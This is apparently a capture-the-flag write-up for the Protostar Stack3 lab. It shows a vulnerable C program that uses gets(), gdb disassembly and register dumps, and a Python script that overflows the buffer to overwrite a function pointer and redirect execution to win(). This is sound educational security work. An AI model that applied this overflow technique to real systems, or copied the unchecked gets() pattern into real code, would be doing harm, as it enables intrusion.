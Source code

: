 Our goal is to solve this explotation challenge <i> [Stack3](https://exploit.education/protostar/stack-three/)</i>
by redirecting code to function win

# Code to exploit 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```
## Problem of code
In this code we have a function-pointer placed in stack, which will be called if its value 
is different than zero. We also have a gets function which is dangerous because it doesn't 
know in advance how many characters will be read.


We will execute the programm with gdb to have a view of the assembly code.

```

0x08048438 <main+0>:	push   %ebp
0x08048439 <main+1>:	mov    %esp,%ebp
0x0804843b <main+3>:	and    $0xfffffff0,%esp
0x0804843e <main+6>:	sub    $0x60,%esp
0x08048441 <main+9>:	movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:	lea    0x1c(%esp),%eax
0x0804844d <main+21>:	mov    %eax,(%esp)
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    $0x8048560,%eax
0x08048461 <main+41>:	mov    0x5c(%esp),%edx
0x08048465 <main+45>:	mov    %edx,0x4(%esp)
0x08048469 <main+49>:	mov    %eax,(%esp)
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret  

```

The problem in this case is when we move a value from the stack to %eax and then call %eax.

```

0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax

```

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that %eax 
will be equal to 0x51515151 before <main+61>.


```

0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
(gdb) b *main +61
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack3 < /home/user/tmp
calling function pointer, jumping to 0x51515151

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
	in stack3/stack3.c
(gdb) info registers 
eax            0x51515151	1364283729
ecx            0x0	0
edx            0xb7fd9340	-1208118464


```

We know that the ASCII value 0x51 is letter Q so our exploit string will be 
"AAAABBBBCCCC....OOOOPPPP"+ the address of function win 

We obtain from gdb the address of function win

```
(gdb) x win
0x8048424 <win>:	0x83e58955

```

And then with this python code we will do the final explotation

```

import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string = string.split("QQQQ")[0]
        string = string + struct.pack("I",0x08048424)

        print(string)

```


Finally we run like 

```
user@protostar:~$ python stack3.py | /opt/protostar/bin/stack3

calling function pointer, jumping to 0x08048424
code flow successfully changed

user@protostar:~$ 

```

and we get the expected output
